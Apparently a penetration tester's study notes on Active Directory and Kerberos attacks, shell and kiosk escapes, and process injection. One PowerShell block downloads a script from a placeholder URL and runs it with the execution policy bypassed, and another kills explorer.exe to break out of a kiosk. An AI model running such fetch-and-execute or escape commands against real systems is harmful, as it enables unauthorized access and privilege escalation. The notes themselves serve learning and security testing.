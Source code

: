 
- **Active Directory / Kerberos attacks**
  - **AD CS** (Active Directory Certificate Services)  manages certificates used for authentication and encryption
    - if the AD CS templates are misconfigured and allow any authenticated user to request a certificate for any service, we have a vulnerability
    - with the **Certify** tool, we can scan for misconfigured certificate templates and request a certificate for a service account that has high privileges
    - this allows to authenticate as this high-privilege account against various services
    - it allows privilege escalation when we have access to a low-privilege account
  - **Kerberos** : primary authentication protocol used by AD
    - with the **Rubius** tool, we can interact with Kerberos tickets to try to get powerful access to a domain
    - Pass-the-ticket attack to steal a valid Kerberos ticket from memory and re-use it to authenticate to other services
    - Forge golden tickets granting access to any service as any user, if we have compromised the KRBTGT account's NTLM hash (dumped from a Domain Controller with Mimikatz)
    - with the **Evil-WinRM** post-exploitation tool, we can remotely execute commands on a Windows machine over HTTP using PowerShell remotely
    - it is mostly used once we get initial access to pivot within the network


- **Shell escape / Kiosk escape**
  - a shell escape occurs when we break out from a restricted shell environment to gain unauthorized access to the underlying system
    - using a command allowing to execute other programs, like vim or nano
    - on PowerShell, using cmdlet `Invoke-Expression -Command "cmd.exe"`
  - a Kiosk escape occurs when we break out of a restricted computing environment (browser in a lobby, point of sale terminal, check in system, restaurant menu...)
    - vulnerability in the allowed application
    - in Windows, using "Save As", find executables (like cmd.exe) to run commands
      ```shell
      # example if we have the Invoke-WebRequest cmdlet 
      Invoke-WebRequest -Uri <POWERSHELL_SCRIPT_URL> -OutFile C:\Users\Public\myscript.ps1
      powershell.exe -ExecutionPolicy ByPass -File C:\Users\Public\myscript.ps1
      
      # example if we have the Get-WmiObject cmdlet to break out of a browser and start a new regular one
      (Get-WmiObject -Query "SELECT * FROM Win32_Process WHERE Name='explorer.exe'").Terminate()
      Start-Process "C:\Windows\explorer.exe"
      ```


- **Library and Process Injection**
  - code execution within the address space of another process by making it execute our code via its dependencies
  - used to evade detection, escalate privileges and bypass security controls
  - it takes advantage of the trust the system has in the injected process
  - **DLL injection** : loading of a dynamic link library into the memory space of a target process
  - **Reflective DLL injection** : stealthy technique where the malicious DLL is loaded directly from memory rather than written on disk 
  - **Remote thread injection** : create a new thread in a remote process pointing to a memory location containing malicious code
  - **Process Hollowing** : spawning a new process in suspended state, replacing its memory wth malicious code, then resuming the process
